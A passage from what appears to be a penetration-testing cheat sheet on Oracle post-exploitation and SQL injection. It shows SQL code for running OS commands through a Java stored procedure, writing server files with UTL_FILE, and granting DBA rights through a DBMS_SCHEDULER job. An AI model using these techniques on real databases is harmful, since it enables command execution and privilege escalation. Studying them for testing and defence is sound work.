    ```sql
            return e.toString();
         }
      }
   };
   /
   
   CREATE OR REPLACE FUNCTION run_cmd(p_cmd IN VARCHAR2) RETURN VARCHAR2
   AS LANGUAGE JAVA
   NAME 'cmd.run(java.lang.String) return java.lang.String';
   /
   
   SELECT run_cmd('id') FROM dual;
   ```

   This uses Java stored procedures to execute system commands.

2. **UTL_FILE Package for File Access**

   ```sql
   DECLARE
      l_file UTL_FILE.FILE_TYPE;
      l_text VARCHAR2(32767);
   BEGIN
      l_file := UTL_FILE.FOPEN('DIRECTORY_NAME', 'output.txt', 'W');
      UTL_FILE.PUT_LINE(l_file, 'Data from UTL_FILE');
      UTL_FILE.FCLOSE(l_file);
   END;
   ```

   This technique uses the `UTL_FILE` package to write files to the server.

3. **DBMS_SCHEDULER for Job Execution**

   ```sql
   BEGIN
      DBMS_SCHEDULER.create_job(
         job_name => 'job1',
         job_type => 'PLSQL_BLOCK',
         job_action => 'BEGIN EXECUTE IMMEDIATE ''GRANT DBA TO SCOTT''; END;',
         start_date => SYSTIMESTAMP,
         repeat_interval => NULL,
         end_date => NULL,
         enabled => TRUE
      );
   END;
   ```

   This uses `DBMS_SCHEDULER` to execute jobs that can change database permissions.

## Advanced Methods to Forcefully Generate Errors on Various DBMS

Here are some advanced techniques taht specific to some DBMS to force errors and gather valuable information. By using these advanced methods to force errors on different DBMS, you can gather detailed error messages that reveal valuable information about the database, helping you identify and exploit SQL injection vulnerabilities more effectively.
